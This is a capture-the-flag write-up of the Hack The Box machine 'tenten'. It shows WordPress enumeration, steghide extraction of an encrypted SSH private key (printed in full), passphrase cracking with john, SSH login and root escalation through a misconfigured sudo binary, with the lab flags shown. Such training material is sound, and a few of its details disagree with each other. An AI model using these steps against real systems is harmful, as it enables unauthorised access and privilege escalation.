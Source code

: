 ```yaml
---
title: tenten
author: fieldraccoon
date: 2020-06-22 
categories: [hack-the-box, linux]
tags: [hack-the-box, crypto, medium]
math: true
---
```

# tenten

tenten was a relatively easy medium linux box that involved recon of the wordpress site to find a jpg file. We then run steghide on the file to get an rsa key which we extract the password from using ssh2john. We then ssh into the box as user, for root we find an intersesting file called `fuckin` which we can abuse to get comand execution and read the root flag.

> Skills involved in this box:
- enumeration
- privilege escalation
- hash cracking
- steghide

# USER

> Nmap

```shell
nmap -sC -sV -o nmap 10.10.10.10

Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-22 09:24 EDT                                                    
Nmap scan report for 10.10.10.10                                                                                   
Host is up (0.031s latency).                                                                                       
Not shown: 998 filtered ports                                                                                      
PORT   STATE SERVICE VERSION                                                                                       
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)                                  
| ssh-hostkey:                                                                                                     
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)                                                     
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Our nmap scan reveals just 2 ports open, 22 on ssh and port 80 on http.

We head over to the website and se imeediately that it is wordpress, instead of using dirbuster or any oter reconnaisance tools we use wpscan which is made specifically for wordpress.

```shell
$ sudo wpscan -u http://10.10.10.10 
[+] We found 1 plugins:

[+] Name: job-manager - v7.2.5
 |  Latest version: 0.7.25 (up to date)
 |  Last updated: 2015-08-25T22:44:00.000Z
 |  Location: http://10.10.10.10/wp-content/plugins/job-manager/
 |  Readme: http://10.10.10.10/wp-content/plugins/job-manager/readme.txt
[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+-------+-------+
    | Id | Login | Name  |
    +----+-------+-------+
    | 1  | takis | takis |
    | 2  | user1 | user1 |
    +----+-------+-------+
```

We can see that there is a user called takis on the site, we assume that this is going to be the user for this box.

Afer navigating to the http page and enumerating the website we come accross the job listings page where we click `apply` and we get an interesting url.

`http://10.10.10.10/index.php/jobs/apply/8/`


 We can see that there is the number `8` which we assume is the id of the person logged on, we test a few more numbers and we get a unique user called `HackerAccessGranted` we assume that this has to be the right thing.

 We could also get this by intercepting the request with burpsuite and sending it to intruder, we then generate a custom payload with numbers(e.g like 1-20), then take a look at the output and get the same response for number 13.

 >Exploit

 he wordpress directory structure for the uploaded files is known as /wp-content/uploads/%year%/%month%/%filename% - file structure for wordpress

We test file extensions for our wanted file and it finally  works with a `jpg` file.
```shell
wget http://10.10.10.10/wp-content/uploads/2017/04/HackerAccessGranted.jpg
```
This can also be find by fuzzing further for files or by using an exploit `CVE-2015-6668` which is a python script that bruteforces files and shows us the image file.

We then run steghide on this image to see if we can exfiltrate any hidden data inside it.

```shell
kali@kali:~/boxes/tenten$ steghide extract -sf HackerAccessGranted.jpg
Enter passphrase: 
wrote extracted data to "id_rsa".

cat id_rsa
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,7265FC656C429769E4C1EEFC618E660C

/HXcUBOT3JhzblH7uF9Vh7faa76XHIdr/Ch0pDnJunjdmLS/laq1kulQ3/RF/Vax
tjTzj/V5hBEcL5GcHv3esrODlS0jhML53lAprkpawfbvwbR+XxFIJuz7zLfd/vDo
1KuGrCrRRsipkyae5KiqlC137bmWK9aE/4c5X2yfVTOEeODdW0rAoTzGufWtThZf
K2ny0iTGPndD7LMdm/o5O5As+ChDYFNphV1XDgfDzHgonKMC4iES7Jk8Gz20PJsm
SdWCazF6pIEqhI4NQrnkd8kmKqzkpfWqZDz3+g6f49GYf97aM5TQgTday2oFqoXH
WPhK3Cm0tMGqLZA01+oNuwXS0H53t9FG7GqU31wj7nAGWBpfGodGwedYde4zlOBP
VbNulRMKOkErv/NCiGVRcK6k5Qtdbwforh+6bMjmKE6QvMXbesZtQ0gC9SJZ3lMT
J0IY838HQZgOsSw1jDrxuPV2DUIYFR0W3kQrDVUym0BoxOwOf/MlTxvrC2wvbHqw
AAniuEotb9oaz/Pfau3OO/DVzYkqI99VDX/YBIxd168qqZbXsM9s/aMCdVg7TJ1g
2gxElpV7U9kxil/RNdx5UASFpvFslmOn7CTZ6N44xiatQUHyV1NgpNCyjfEMzXMo
6FtWaVqbGStax1iMRC198Z0cRkX2VoTvTlhQw74rSPGPMEH+OSFksXp7Se/wCDMA
pYZASVxl6oNWQK+pAj5z4WhaBSBEr8ZVmFfykuh4lo7Tsnxa9WNoWXo6X0FSOPMk
tNpBbPPq15+M+dSZaObad9E/MnvBfaSKlvkn4epkB7n0VkO1ssLcecfxi+bWnGPm
KowyqU6iuF28w1J9BtowgnWrUgtlqubmk0wkf+l08ig7koMyT9KfZegR7oF92xE9
4IWDTxfLy75o1DH0Rrm0f77D4HvNC2qQ0dYHkApd1dk4blcb71Fi5WF1B3RruygF
2GSreByXn5g915Ya82uC3O+ST5QBeY2pT8Bk2D6Ikmt6uIlLno0Skr3v9r6JT5J7
L0UtMgdUqf+35+cA70L/wIlP0E04U0aaGpscDg059DL88dzvIhyHg4Tlfd9xWtQS
VxMzURTwEZ43jSxX94PLlwcxzLV6FfRVAKdbi6kACsgVeULiI+yAfPjIIyV0m1kv
5HV/bYJvVatGtmkNuMtuK7NOH8iE7kCDxCnPnPZa0nWoHDk4yd50RlzznkPna74r
Xbo9FdNeLNmER/7GGdQARkpd52Uur08fIJW2wyS1bdgbBgw/G+puFAR8z7ipgj4W
p9LoYqiuxaEbiD5zUzeOtKAKL/nfmzK82zbdPxMrv7TvHUSSWEUC4O9QKiB3amgf
yWMjw3otH+ZLnBmy/fS6IVQ5OnV6rVhQ7+LRKe+qlYidzfp19lIL8UidbsBfWAzB
9Xk0sH5c1NQT6spo/nQM3UNIkkn+a7zKPJmetHsO4Ob3xKLiSpw5f35SRV+rF+mO
vIUE1/YssXMO7TK6iBIXCuuOUtOpGiLxNVRIaJvbGmazLWCSyptk5fJhPLkhuK+J
YoZn9FNAuRiYFL3rw+6qol+KoqzoPJJek6WHRy8OSE+8Dz1ysTLIPB6tGKn7EWnP
-----END RSA PRIVATE KEY-----
```
It works and it outputs to a file called id_rsa which is the ssh key for the user takis.

We try ssh into the box but the key is password protected.

```shell
kali@kali:~/boxes/tenten$ chmod 600 id_rsa
kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
takis@10.10.10.10's password:
```
From here we tried `ssh2john.py` with `john` which worked great!

```shell
sudo /usr/share/john/ssh2john.py  id_rsa > hash

kali@kali:~/boxes/tenten$ sudo john -w=/home/kali/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:07 DONE (2020-06-22 09:41) 0.1416g/s 2031Kp/s 2031Kc/s 2031KC/sa6_123..*7¡Vamos!
Session completed
```
So now we got our password `superpassword`.

We ssh into the box and read our user flag.

```shell

kali@kali:~/boxes/tenten$ ssh -i id_rsa takis@10.10.10.10
load pubkey "id_rsa": invalid format
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

65 packages can be updated.
39 updates are security updates.


Last login: Fri May  5 23:05:36 2017
takis@tenten:~$ ls
user.txt
takis@tenten:~$ cat user.txt
e5c7ed3b89e73049c04c432fc8686f31
```
# ROOT

We run `sudo -l` to check if we have any privs for running things as sudo and it turns out that we do.
```shell
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
we can see here that the user can run the file `fuckin` as root.

We experiment with what the file can do and we realise that we can simply specify the command after the file, we willl use this to read the root flag.
```shell
takis@tenten:~$ fuckin cat /root/root.txt
cat: /root/root.txt: Permission denied
takis@tenten:~$ fuckin id
uid=1000(takis) gid=1000(takis) groups=1000(takis),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),117(lpadmin),118(sambashare)
takis@tenten:~$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)
takis@tenten:~$ sudo fuckin cat /root/root.txt
f9f7291e39a9a2a011b1425c3e08f603
takis@tenten:~$ 
```
Thanks for reading hope you enjoyed!
